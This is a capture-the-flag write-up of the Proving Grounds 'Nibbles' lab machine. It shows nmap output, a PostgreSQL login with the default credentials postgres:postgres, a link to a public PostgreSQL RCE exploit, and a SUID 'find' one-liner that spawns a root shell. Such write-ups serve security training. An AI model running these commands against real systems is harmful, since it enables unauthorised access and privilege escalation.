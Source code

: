 ```yaml
---
title: "Proving grounds Practice: Nibbles"
layout: post
date: 2024-01-05 02:00
categories: writeup
---
```


Proving grounds Practice - Nibbles CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
```

## 21/tcp   open  ftp        vsftpd 3.0.3

- Anonymous login prohibited.
 - user:system = failed.

- vsftpd v3.0.3 not vulnerable tp RCE.

Moving to next port.

## 80/tcp   open  http       Apache httpd 2.4.38 ((Debian))

Nothing here!

## 5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

Connecting postgresql db using default credentials `postgres:postgres`.

```sh
psql -U postgres -h 192.168.156.47 -p 5437
```

### GitHub Exploit

- https://github.com/kashif-23/modified-public-exploits/blob/main/postgresqlversions_9.3-11.7-RCE.py

![img](/assets/images/CTF/Proving_Grounds/Nibbles/IF.png)

Initial Foothold obtained.

## Privilege Escalation

Enumerate SUIDs `$ find / -perm -u=s -type f 2>/dev/null`.

```sh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find	#vulnerable to exploit
/usr/bin/sudo
/usr/bin/umount
```

#### GTFO Bins Exploit

```sh
./find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Nibbles/Root.png)

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).